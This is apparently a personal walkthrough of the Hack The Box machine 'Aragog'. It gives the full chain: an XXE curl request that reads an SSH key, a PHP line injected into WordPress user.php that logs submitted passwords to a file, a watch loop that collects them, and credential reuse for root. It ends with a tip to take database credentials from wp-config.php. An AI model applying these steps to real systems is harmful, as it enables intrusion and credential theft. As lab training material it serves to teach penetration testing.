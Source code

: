 1. First you've to enumerate the machine with [[Nmap]] and also use [[GoBuster]] and [[Wfuzz]] in order to find some files of the page.
2. After doing all this enumeration you'll find a `test.txt` file in the ftp with the anon user listed in nmap. Another thing you could find is the file hosts.php with the [[Wfuzz]] tool. Once you've this two things you can combine them with the usage of curl to send a payload via a [[XXE - XML External Entities Injection]]. The command you've to run is `curl -s -X POST -d @test.xml http://aragog.htb/hosts.php` in order to execute the curl tool in Silent mode, with the POST method and sending the content of the test.xml file as the body. The code that you should have in the test.xml file is in the [[Aragog - Code]] resource.
3. Once you've sent that payload you will get the id_rsa of the user __Florian__
4. Now that you've used the id_rsa to get into the system via [[SSH]], you have to do some [[Own machine enum]]. The thing that will pay off at the end is the usage of Pspy or the coding of a procmon tool to look for processes that run at a certain amount of time. The code can be seen in [[Aragog - Code]].
5. Once you've done this kind of enumeration you'll come acorss a certain tool called wp-login.py that's being executed regularly. Only the name gives us the idea that the script is making smth log into an account. Because of this behaviour and the fact that you've control over the Wordpress root directory you can intercept the credentials that are being sent by modifing the file user.php to make the login script create a file with the credentials that are being used to login the user in. The only thing that you've to do is add the following line in the part that looks if the credentials are being sent:
```
if (!empty($_POST['pwd']))
	$credentials['user_password'] = $_POST['pwd']
	
	file_put_contents("/var/www/html/dev_wiki/log.txt", $_POST['log'] . " : " . $_POST['pwd'], FILE_APPEND)  # INSERTED MALICIOUS CODE
```
The main purpose of this added line is to create a file called __log.txt__ that contains the user and password sent via the POST method with the script called `wp-login.py`.

6. Now that you've all set up the only thing that's left is wait. You can do it by running the command `watch -n 1 curl -s -X GET "http://aragog.htb/dev_wiki/log.txt"` and looking for the content of the file until it changes into the credentials of the Administrator user of the page.
7. The last thing of the machine is, because the user has the bad habit of reusing the credentials, issue the command `su root` and enter the password obtained from the previous exploit. Now you can freely go to `/root` and cat out the __root.txt__ file and go to `/home/florian` and also cat out the __user.txt__ file.

### Things to have in mind

- Sometimes when you compromise a machine that runs Wordpress, you can go on and look for the file __wp-config.php__ in the root wordpress directory and find valid credentials for the databases running on the server. 